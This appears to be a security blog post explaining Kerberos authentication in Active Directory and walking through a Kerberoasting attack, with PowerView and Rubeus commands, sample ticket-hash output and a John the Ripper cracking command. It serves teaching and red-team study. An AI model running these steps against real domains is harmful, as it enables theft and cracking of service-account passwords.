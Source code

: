 ```yaml
---
cover: https://i.postimg.cc/NjfMXj1G/Designer-1.jpg
title: "A Deep Dive into Kerberos: Understanding Kerberoasting and ASREPRoasting Attacks."
date: 8/23/2024 6:50:40 +06:00
categories: research
tags: [Kerberos, Kerberoasting, Asreproasting]
toc: true
toc_number: false
---
```

# Overview

Welcome to my three-part blog series! In this first part, I'll dive deep into how Kerberos works and take a closer look at Kerberoasting and ASREPRoasting attacks. In the next part, we'll explore Kerberos delegation, some of the architectural and design issues in Kerberos, and how attackers can exploit these weaknesses. The final part will be about Shadow Credentials.

Kerberos is one of the main authentication protocols in Active Directory, along with NTLM and LDAP. It's considered secure because it uses tickets to authenticate clients and servers, avoiding the need to store passwords locally. Plus, it involves a trusted third party, the Key Distribution Center (KDC), which also acts as the domain controller and uses built-in symmetric cryptography. However, as with any security system, Kerberos isn't perfect and has its vulnerabilities. We will be using (Rubeus)[https://github.com/GhostPack/Rubeus] throughout this blog which is one of the most sought after tool when it comes to attacking Kerberos.

# Kerberos Working

![Kerberos Working](https://i.postimg.cc/YqdDpdRn/Untitled-Diagram-drawio.png)

There are generally three things involved in kerberos authentication
- Client
- Service 
- KDC (Authentication Server, Ticket granting Server)

Supose a user wants to access a service in a office which uses Active Directory network like HTTP service for accessing web applications, CIFS service for accessing file shares, LDAP Service, Database Services like MYSQL and Postgresql for database administration or searching stuffs, SMTP service for sending emails, IMAP or POP3 service and many more. How does he/she access them? Inside KDC which is the Domain Controller there are two servers one is the Authentication Server which confirms that a known user is making an access request and issues a valid TGT and another is Ticket Granting Server which confirms that the user is making access request to a known service aka which exists in the domain and issues a ST service Ticket.

- **AS-REQ(Authentication Server Request):** The user requests TGT from the authentication server by sending an encrypted timestamp which is encrypted using the user's password.
- **AS-REP(Authentication Server Response):** The authentication server verifies the client and sends back TGT, this TGT is encrypted using password hash of krbtgt account. 
- **TGS-REQ(Ticket Granting Server Request):** Suppose the client wants to access MSSQL-2 service on dev.dhitalcorp.local domain, now the client sends the TGT along with SPN(service principal name) `alex\MSSQL-2$@dev.dhitalcorp.local` to the ticket granting server to request for a service ticket.
- **TGS-REP(Ticket Granting Server Response):** The Ticket granting server verifies the TGT and provides them ST(Service Ticket) for the requested service. This service ticket is encrypted using the ntlm hash of the service. The TGS doesnot verify if the client has access to the service or not it directly provides them service ticket after verifying their TGT, since the service ticket is encrypted using NTLM hash of the service kerberoasting attack comes into play in here.
- **AP-REQ(Authentication Protocal Request):** The client sends the service ticket to the service 
- **AP-RES(Authentication Protocal Response):** The service verifies if the client has access and grants access.
# Kerberoasting

Most services run on a machine under the context of a user account. Above in the TGS-REP step, the Ticket Granting Server (TGS) sends the client a Service Ticket for the service they requested, based on the SPN they provided. Part of this Service Ticket is encrypted with the password of the user account running that service. The TGS doesn’t check if the client actually has access to that service or not. This means that as a regular domain user, we can request service tickets for any service and then crack them offline to uncover the plaintext password of the user account running that service. 

As a regular domain user first list all kerberoastable accounts(service accounts running in the context of user accounts). We can use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```bash
PS C:\Users\Alex> Get-DomainUser -SPN

distinguishedName : CN=SQLService,OU=Service Accounts,DC=dev,DC=dhitalcorp,DC=local
enabled           : True
name              : mssql_svc
objectClass       : user
objectGUID        : 12345678-90ab-cdef-1234-567890abcdef
passwordExpired   : False
pwdLastSet        : 7/23/2024 12:34:56 PM
samAccountName    : mssql_svc
servicePrincipalName : MSSQLSvc/sql-1.dev.dhitalcorp.local:1433
userPrincipalName : SQLService@dev.dhitalcorp.local
```
We can request service ticket for this `mssql_svc` service account and crack it offline.
- We can also use PowerView to request service ticket for this `mssql_svc` service account:  `Get-DomainUser -SPN mssql_svc | Get-DomainSPNTicket`
- We can also use [Invoke-Kerberoast](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/) to both find and roast kerberoastable accounts.
-  If you want the hash in specific format for cracking we can also request it using OutputFormat as `Get-DomaintUser -SPN mssql_svc | Get-DomainSPNTicket -OutputFormat hashcat`.
Below we are using Rubeus. 

```bash
PS C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap

[*] Action: Kerberoasting

[*] Target User  : mssql_svc
[*] Target Realm : DEV.DHITALCORP.LOCAL

[*] Searching for service tickets...

[*] ServicePrincipalName              : MSSQLSvc/sql-1.dev.dhitalcorp.local:1433
[*] UserName                          : mssql_svc
[*] UserDomain                        : DEV.DHITALCORP.LOCAL
[*] ServiceTicket (base64)            : <ticket data>

[*] RC4_HMAC(NT) hash for mssql_svc@DEV.DHITALCORP.LOCAL:
$krb5tgs$23$*mssql_svc$DEV.DHITALCORP.LOCAL$MSSQLSvc/sql-1.dev.dhitalcorp.local:1433*$D098E44F9B1C3CDE120A4A3DA2D32C4F$5C233E56F3C8B12F7D0B8A5DCC5A8D0C99E3B5F471D618F3B830C6F7E6FDE63DDA3C91C8E5A5D78F3A8B49A4E59CBFA2EED4A6B91FC3E671B1C8B08A9AC292FB
```
Remove the service principal name from the hash to crack using John. The hash should be in format `$krb5tgs$23$*mssql_svc$DEV.DHITALCORP.LOCAL*$D098E44F9B1C3CDE120A4A3DA2D32C4F$5C233E56F3C8B12F7D0B8A5DCC5A8D0C99E3B5F471D618F3B830C6F7E6FDE63DDA3C91C8E5A5D78F3A8B49A4E59CBFA2EED4A6B91FC3E671B1C8B08A9AC292FB`. Save the hash as `mssql_svc.txt`. We can crack this using John as follows.

```bash
┌──(alex㉿kali)-[~]
└─$ john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou2024.txt mssql_svc.txt
```
